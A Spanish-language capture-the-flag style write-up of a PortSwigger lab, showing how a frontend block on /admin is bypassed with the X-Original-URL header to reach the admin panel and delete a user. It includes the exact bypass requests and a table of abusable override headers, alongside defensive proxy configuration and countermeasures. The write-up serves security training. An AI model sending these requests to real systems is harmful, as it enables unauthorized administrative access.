

# Writeup: URL-based access control can be circumvented (PortSwigger)

- **Lab**: URL-based access control can be circumvented
- **URL**: https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented
- **Categoría**: Access control / Frontend bypass / Header smuggling / Split-brain routing
- **Dificultad**: Practitioner

---

## 1. Objetivo

El frontend (proxy/WAF/CDN) bloquea `/admin` mirando el path en la request line. El backend respeta el header `X-Original-URL` y enruta usando ese path. Doble interpretación: dos sistemas miran "URLs distintas" para la misma request. Mandando `GET /` con `X-Original-URL: /admin`, el frontend ve `/` (deja pasar) y el backend ve `/admin` (sirve admin panel). Para borrar carlos: `X-Original-URL: /admin/delete` + `username=carlos`.

### Insight central

Hay dos componentes que toman decisiones sobre la misma request:

- **Frontend**: lee la **request line** (`GET /admin HTTP/2`) y aplica reglas tipo "rechazar paths que matcheen `/admin`".
- **Backend**: lee la **request line + headers**. Algunos frameworks (Symfony, mod_rewrite con `RewriteRule`, IIS) interpretan `X-Original-URL` o `X-Rewrite-URL` como override del path para routing/dispatch.

El gap entre cómo cada componente determina "qué URL es esta request" es la vulnerabilidad. El frontend confía en que el backend va a usar la misma URL; el backend confía en que el frontend ya validó. Ninguno de los dos sabe lo que el otro mira.

Es la misma clase de bug que **HTTP request smuggling** (frontend y backend desacuerdan sobre dónde termina la request), aplicada al routing en lugar del framing.

---

## 2. Recon y resolución

### 2.1 Confirmar el bloqueo del frontend

```
GET /admin HTTP/2
Host: <lab>.web-security-academy.net
```

Frontend devuelve un mensaje breve tipo "Path /admin is blocked" en texto plano. Fingerprint de proxy: response cruda, headers mínimos, sin styling de la app principal. Sugiere que la decisión la toma una capa anterior al backend.

### 2.2 Confirmar que el backend usa `X-Original-URL`

Probar con un path inválido para ver si el backend cambia el comportamiento basándose en el header:

```
GET / HTTP/2
X-Original-URL: /invalid
```

Response: 404. Si el backend ignorase el header, devolvería el home (200). El 404 prueba que el backend está routeando contra `/invalid` en lugar de `/`. Vector confirmado.

### 2.3 Acceso al admin panel

```
GET / HTTP/2
X-Original-URL: /admin
```

Response 200 con el HTML del admin panel: lista de users con links `Delete` para cada uno (`/admin/delete?username=...`).

### 2.4 Delete carlos

```
GET / HTTP/2
Cookie: session=GszGNCRpGWJAkPGfcFGyzLcKvYl4Z8WJ
X-Original-URL: /admin/delete
Content-Length: 15

username=carlos
```

Response:

```
HTTP/2 302 Found
Location: /admin
```

El backend interpretó la request como `/admin/delete` con body `username=carlos`, ejecutó el delete, redirigió al panel admin. Lab solved.

Nota: la solución oficial sugiere `GET /?username=carlos` (query string en la URL real). En la captura se mandó `GET /` con `username=carlos` en body. Ambos funcionan porque el framework parsea el username desde donde lo encuentre (form data, query string, body). El método GET con body es no canónico pero los frameworks lo aceptan.

---

## 3. Por qué funciona

### 3.1 Anatomía del split-brain

```
            +------------------+         +-----------------+
Atacante -->|  Frontend (WAF)  |-------->|     Backend     |
            +------------------+         +-----------------+
            mira request line:           mira X-Original-URL:
            "/" -> permitido             "/admin" -> dispatch admin handler
```

El frontend ve `GET / HTTP/2` y aplica regla: "/" no matchea bloqueos, pasar al backend. El backend tiene un middleware que dice "si existe `X-Original-URL`, usalo como path". Symfony, mod_rewrite con `[E=...]`, IIS con `Rewrite Module`, y muchos middlewares custom hacen esto. El header existe legítimamente para que reverse proxies internos comuniquen "antes del rewrite, el cliente pidió este path".

El bug es **confiar en headers controlables por el cliente** sin sanitizarlos antes del rewrite/routing.

### 3.2 Familia de headers explotables

El más conocido es `X-Original-URL` pero hay varios equivalentes:

| Header | Framework/origen |
|---|---|
| `X-Original-URL` | Symfony (`url_request`), IIS Rewrite, Apache |
| `X-Rewrite-URL` | mod_rewrite legado |
| `X-Forwarded-Path` | algunos proxies |
| `X-Forwarded-URI` | nginx custom |
| `X-Override-URL` | middlewares custom |
| `X-HTTP-Method-Override` | método HTTP (similar pero distinto bug) |
| `X-Custom-IP-Authorization` | Akamai, header de allowlist por IP |

Cualquiera de ellos, si el backend lo respeta y el frontend no lo elimina/normaliza, abre el split-brain.

### 3.3 Por qué el frontend no elimina el header

- **Fail-open por default**: muchos WAF/reverse proxy no tienen reglas para strippear headers no estándar.
- **Header pasa "como información"**: el operations team agrega el header en proxies internos, no se da cuenta de que también lo aceptan desde el internet.
- **Frontend no sabe del backend**: equipos separados, nadie revisa qué headers honra el otro.
- **Documentación oscura**: muchos frameworks habilitan estos headers por default y la doc no es clara sobre el riesgo.

### 3.4 Implementación correcta

```nginx
# Frontend - eliminar headers de override antes de pasar al backend
proxy_set_header X-Original-URL "";
proxy_set_header X-Rewrite-URL "";
proxy_set_header X-Forwarded-Path "";
proxy_set_header X-Override-URL "";

# o mejor: allowlist explicita de headers que pasan
proxy_pass_request_headers off;
proxy_set_header Host $host;
proxy_set_header X-Real-IP $remote_addr;
proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
```

```python
# Backend - access control siempre en backend, no en frontend
@app.route('/admin/<path:subpath>')
@require_role('admin')
def admin_handler(subpath):
    ...
```

**Regla**: nunca delegar access control al frontend. El frontend puede ser una primera línea de defensa contra abuse (rate-limiting, WAF de OWASP rules), pero el backend tiene que volver a validar todo. Authz duplicada en ambas capas.

### 3.5 Por qué la solución es backend-side

El frontend opera con visibilidad limitada: no conoce sesiones, roles, ownership. Tiene la URL, IPs, headers. Cualquier decisión que requiera "este user es admin" tiene que hacerla el backend. La regla "rechazar `/admin` desde fuera" es un filtro grueso que falla cuando el atacante puede manipular cómo el backend interpreta la URL.

### 3.6 Conexión con clase de bugs más amplia

| Vulnerabilidad | Síntoma | Disparidad |
|---|---|---|
| HTTP request smuggling | TE/CL desync | frontend y backend desacuerdan sobre **límites de la request** |
| **URL-based access control bypass (este)** | header rewrite | frontend y backend desacuerdan sobre **el path** de la request |
| Host header injection | password reset envenenado | distintos componentes usan distintos `Host` para distintas decisiones |
| HTTP/2 downgrade smuggling | smuggling vía downgrade | frontend habla H2, backend H1, parsing distinto |
| Cache poisoning vía header smuggling | cache key inconsistente | frontend cachea, backend procesa con distinto input |

Patrón general: **dos sistemas que operan sobre la misma request pero la interpretan distinto**. La solución estructural es _normalizar agresivamente_ en el primer hop y duplicar checks críticos.

---

## 4. Resumen



Tres ideas:

1. **URL-based access control en frontend es frágil**: el frontend mira la request line, el backend puede mirar headers. Cualquier desacuerdo entre los dos es un bypass.
2. **Authz pertenece al backend**: el frontend puede ser primera línea (rate-limit, WAF rules), pero la decisión final tiene que hacerla el backend con su modelo completo (sesiones, roles, ownership).
3. **Headers de override son trampas**: `X-Original-URL`, `X-Rewrite-URL`, `X-Forwarded-Path`, `X-HTTP-Method-Override`. Si el frontend no los strippea, el atacante manipula el routing del backend desde fuera.

---

## 5. Contramedidas

1. **Stripping agresivo en frontend**: eliminar todos los headers de override (`X-Original-URL`, `X-Rewrite-URL`, `X-Forwarded-Path`, `X-Override-URL`, `X-HTTP-Method-Override`, `X-Custom-IP-Authorization`) antes de pasar al backend. Allowlist > blocklist.
2. **Authz en backend, siempre**: cada handler sensible declara explícitamente su requirement (`@require_role`, `@require_permission`). No delegar al proxy.
3. **Defensa en profundidad**: bloquear `/admin` en el frontend igual, pero también validar en backend. Si una capa falla, la otra cubre.
4. **Logging consistente entre capas**: loggear el path que cada capa "vio" para detectar discrepancias post-mortem.
5. **Tests automatizados con headers maliciosos**: por cada endpoint sensible, test que verifica que `X-Original-URL`, `X-Rewrite-URL`, `X-Forwarded-Path` no permiten bypass.
6. **Fingerprint de framework**: si el backend usa Symfony, IIS, mod_rewrite, conocer qué headers honra y configurar el frontend en consecuencia.
7. **Network-level isolation del admin panel**: si es viable, el panel admin sólo accesible desde una VLAN/VPN interna, no del internet público. Impone segregación física, no sólo lógica.
8. **WAF rules custom**: regla específica que rechaza requests con `X-Original-URL` apuntando a paths sensibles.

---

## 6. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: URL-based access control can be circumvented*. https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented
- PortSwigger Web Security Academy. (s.f.). *Access control vulnerabilities and privilege escalation*. https://portswigger.net/web-security/access-control
- PortSwigger Research. (2018). *Practical Web Cache Poisoning*. https://portswigger.net/research/practical-web-cache-poisoning
- OWASP Foundation. (2021). *A01:2021 - Broken Access Control*. https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP Foundation. (s.f.). *Authorization Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Access Control Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Access_Control_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-284: Improper Access Control*. https://cwe.mitre.org/data/definitions/284.html
- MITRE Corporation. (2024). *CWE-287: Improper Authentication*. https://cwe.mitre.org/data/definitions/287.html
- MITRE Corporation. (2024). *CWE-444: Inconsistent Interpretation of HTTP Requests (HTTP Request Smuggling)*. https://cwe.mitre.org/data/definitions/444.html
- MITRE Corporation. (2024). *CWE-693: Protection Mechanism Failure*. https://cwe.mitre.org/data/definitions/693.html
- IETF. (2022). *RFC 9110: HTTP Semantics*. https://www.rfc-editor.org/rfc/rfc9110
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 8 (Attacking Access Controls).
- Inventario interno (umbrella): [`inventario/04-explotacion/web/explotacion-broken-access-control.md`](../../../inventario/04-explotacion/web/explotacion-broken-access-control.md)
- Lab hermano de header confusion: [`learning/portswigger/password-reset-poisoning-via-middleware/writeup.md`](../password-reset-poisoning-via-middleware/writeup.md)
